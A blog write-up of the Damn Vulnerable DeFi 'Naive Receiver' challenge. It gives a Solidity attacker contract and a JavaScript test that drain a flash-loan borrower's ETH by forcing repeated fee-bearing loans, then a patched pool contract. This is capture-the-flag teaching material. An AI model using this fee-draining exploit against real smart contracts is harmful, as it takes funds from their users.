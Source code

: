 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Naive Receiver
---
```


## Description
There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

## Solution
The problem with _NaiveReceiverLenderPool_ is it doesn't check
that the caller and borrower are the same address. This means anyone can call `flashLoan` for the borrower and force them to pay the fixed fee!

The borrower has 10 ETH and the fee is 1 ETH. We can loop 10 times to perform 10 flash loans and drain the borrower's funds

```
contract NaiveReceiverAttacker {
    function attack(NaiveReceiverLenderPool naiveReceiverLenderPool, address borrower) external {
        for (uint256 i = 0; i < 10; ++i) {
            // A flashLoan for 0 ETH still forces the borrower to pay the fixed fee!
            naiveReceiverLenderPool.flashLoan(borrower, 0);
        }
    }
}
```

And the Javascript code
```
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */   
    const naiveReceiverAttacker = await (await ethers.getContractFactory('NaiveReceiverAttacker', deployer)).deploy()
    await naiveReceiverAttacker.attack(this.pool.address, this.receiver.address)
});
```

## Patched Contract
This one's an easy fix. Just check that the borrower address matches `msg.sender`. An even better solution would
be to remove the `borrower` parameter and always use `msg.sender` for the borrower, but we'll go with the first option
to preserve the interface.

```
contract NaiveReceiverLenderPoolV2 is ReentrancyGuard {

    using Address for address;

    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan

    function fixedFee() external pure returns (uint256) {
        return FIXED_FEE;
    }

    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {
        require(borrower == msg.sender, "Borrower not sender");
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }

    // Allow deposits of ETH
    receive () external payable {}
}
```

You can verify yourself that the exploit no longer works with `NaiveReceiverLenderPoolV2`!